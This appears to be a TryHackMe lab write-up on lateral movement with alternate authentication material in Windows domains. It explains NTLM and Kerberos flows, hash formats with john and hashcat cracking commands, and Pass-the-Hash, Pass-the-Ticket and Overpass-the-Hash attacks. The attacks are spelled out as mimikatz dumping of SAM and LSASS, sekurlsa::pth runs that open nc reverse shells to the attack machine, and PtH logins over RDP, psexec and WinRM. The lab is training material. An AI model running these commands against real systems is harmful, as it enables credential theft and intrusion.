




# Use of alternate authentication material

## NTLM authentication flow

|  |
|:--:|
| This is for domain authentication. In local authentication, this process only occurs  between the client and server, as the server keeps the user's NTLM hash in the SAM |

* If an attacker manages to compromise a machine where a domain user is logged in, the attacker may be able to dump 
the domain user's NTLM hash from memory by using a tool like `mimikatz` or other methods. The attacker could try to 
crack the hash(es) and user passwords. 
* User sends hash (not password). This allows an attacker to authenticate as a user in certain situations without 
ever needing to know a password, called `pass-the-hash`. It does require dumping hashes locally or remotely.

## Kerberos authentication flow

Ticket Granting Ticket:

|  |
|:--:|
| As long as the session has not lapsed, the user can reuse the TGT as often as needed  to request a TGS. |

Ticket Granting Service:

|  |
|:--:|
| The TGS also has a service session key, and when the SP decrypts the ticket, the SP  will have a session key for the user. |

User Authentication:

|  |
|:--:|
| Deny/Allow |

Pass-the-Ticket requires both the ticket and the service session key in order to pass a TGS to a service principal 
to authenticate as a user. A TGT (Golden ticket) allows an attacker to request multiple TGSs (Silver tickets) on 
behalf of a user.

* When a user requests a TGS, they send an encrypted timestamp derived from their password. The algorithm used to 
create this key can be `DES` (disabled by default on newer Windows installations), `RC4`, `AES218`, or `AES256`, and can 
perhaps be extracted using `mimikatz`. If any of these keys are available on the host, then we can try to request a TGT 
as the user the `Pass-the-Key` way.
* The `RC4` hash is equal to a user's `NTLM` hash. If a users' NTLM hashes were dumped from LSASS during enumeration on 
a domain-joined host, and RC4 a valid encryption algorithm, then these are RC4 hashes, which could be used to request a 
TGT the `Overpass-the-Hash` way.

## Cracking hashes

As a result of extracting credentials from a host where we have attained administrative privileges, we might get 
clear-text passwords, or hashes that can be easily cracked.

## NTLM hash (NTHash)

These hashes can be obtained by dumping the SAM database or using `mimikatz`. They are also stored on domain 
controllers in the `NTDS` file. These are the hashes that can be used to `pass-the-hash`.

Usually people call this the NTLM hash (or just NTLM), which is misleading, as Microsoft refers to this as the NTHash 
(at least in some places). 

Example:

    B4B9B02E6F09A9BD760F388B67351E2B

The algorithm:

    MD4(UTF-16-LE(password))

`UTF-16-LE` is the little endian `UTF-16`. Windows used this instead of the standard big endian.

Cracking:

    john --format=nt hash.txt
    hashcat -m 1000 -a 3 hash.txt

## NTLMv1 (Net-NTLMv1) hash

The NTLM protocol uses the NTHash in a challenge/response between a server and a client. The v1 of the protocol uses 
both the NT and LM hash, depending on configuration and on what is available. 

A way of obtaining a response to crack from a client, `responder` can be used. The value to crack would be the 
`K1 | K2 | K3`. Version 1 is deprecated, but might still be used in some old systems on the network.

Example

    u4-netntlm::kNS:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c

The algorithm:

    C = 8-byte server challenge, random
    K1 | K2 | K3 = LM/NT-hash | 5-bytes-0
    response = DES(K1,C) | DES(K2,C) | DES(K3,C)

Cracking:

    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt

### NTLMv2 (Net-NTLMv2) hash

The new and improved version of the NTLM protocol, which makes it a bit harder to crack. The concept is the same as 
NTLMv1, but a different algorithm and responses are sent to the server. Can also be captured with `responder`. This is 
the Default in Windows since Windows 2000.

Example:

    admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030

The algorithm:

    SC = 8-byte server challenge, random
    CC = 8-byte client challenge, random
    CC* = (X, time, CC2, domain name)
    v2-Hash = HMAC-MD5(NT-Hash, user name, domain name)
    LMv2 = HMAC-MD5(v2-Hash, SC, CC)
    NTv2 = HMAC-MD5(v2-Hash, SC, CC*)
    response = LMv2 | CC | NTv2 | CC*

Cracking:

    john --format=netntlmv2 hash.txt
    hashcat -m 5600 -a 3 hash.txt

## Pass-the-hash (PtH)

The NTLM challenge sent during authentication can be responded to just by knowing the password hash. Instead of 
having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can pass-the-hash 
for authentication.

Assuming NTLMv2, To extract NTLM hashes, use `mimikatz` to read the local SAM or extract hashes directly from `LSASS` 
memory.

Extracting NTLM hashes from local SAM will only allow getting hashes from local users on the machine. No domain 
user hashes will be available.

    mimikatz # privilege::debug
    mimikatz # token::elevate
    
    mimikatz # lsadump::sam

Extracting NTLM hashes from LSASS memory will give any NTLM hashes for local users and any domain user that has 
recently logged onto the machine.

    mimikatz # privilege::debug
    mimikatz # token::elevate
    
    mimikatz # sekurlsa::msv 

The extracted hashes can be used in a PtH attack by using `mimikatz` to inject an access token for the target user 
on a reverse shell (or any other command):

    mimikatz # token::revert

    mimikatz # sekurlsa::pth /user:<username> /domain:<domainname> /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe <IP attack machine> 5555"

`token::revert` reestablishes the original token privileges, because trying to pass-the-hash with an elevated token 
will not work.

Run a reverse listener on the attack machine:

    nc -lnvp 5555

Running the `whoami` command on this shell, it will still show the original user from before doing the PtH, but any 
command run from here will use the credentials thet were injected.

Some Linux tools have built-in support for PtH attacks using different protocols. Depending on which services are
available, try:

Connect to RDP using PtH:

    xfreerdp /v:<IP target> /u:<domainname>\\<username> /pth:<ntlmhash>

Connect via psexec using PtH:

    psexec.py -hashes <ntlmhash> <domainname>/<username>@<IP target>

Note: Only the linux version of `psexec` supports PtH.

Connect to WinRM using PtH:

    evil-winrm -i <IP target> -u <username> -H <ntlmhash>

## Pass-the-ticket

It may be possible to extract Kerberos tickets and session keys from `LSASS` memory using `mimikatz`. This usually 
requires having `SYSTEM` privileges on the attacked machine:

    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export

Extracting TGTs will require administrator privileges, and extracting TGSs can be done with a low-privileged account 
(only the ones assigned to that account).

We need the ticket and its corresponding session key. Inject the ticket into the current session:

    mimikatz # kerberos::ptt <ticket>

Where `ticket` looks something like:

    [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi

Injecting tickets in our own session does not require administrator privileges. After this, the tickets will be 
available for any tools used for lateral movement. To check if the tickets were correctly injected, exit out of the 
`mimikatz` session and:

    za\user.name@THMJMP2 C:\> klist

## Overpass-the-hash/Pass-the-key

This attack is similar to PtH but then for Kerberos networks.

Obtain the Kerberos encryption keys from memory with mimikatz:

    mimikatz # privilege::debug
    mimikatz # sekurlsa::ekeys

Get a reverse shell. Depending on the available keys:

RC4:

    mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe <IP attack machine> 5556"

AES128 hash:

    mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe <IP attack machine> 5556"

If we have the AES256 hash:

    mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe <IP attack machine> 5556"

To receive the reverse shell, run a listener on the attack machine:

    nc -nlvp 5556

## Get the flag

The given credentials will grant administrative access to THMJMP2, allowing for the use of mimikatz to dump the 
authentication material needed for any of the applied techniques. Both mimikatz and psexec64 are available at 
`C:\tools` on THMJMP2.

Using an `ssh` session, use `mimikatz` to extract authentication material and perform Pass-the-Hash, Pass-the-Ticket 
or Pass-the-Key against domain user t1_toby.beck.

Once you have a command prompt with his credentials loaded, use `winrs` to connect to a command prompt on THMIIS. 
Since t1_toby.beck's credentials are already injected in your session as a result of the attacks, you can use `winrs` 
without specifying any credentials, and it will use the ones available to your current session:

    winrs.exe -r:THMIIS.za.tryhackme.com cmd

You'll find a flag on t1_toby.beck's desktop on THMIIS. 

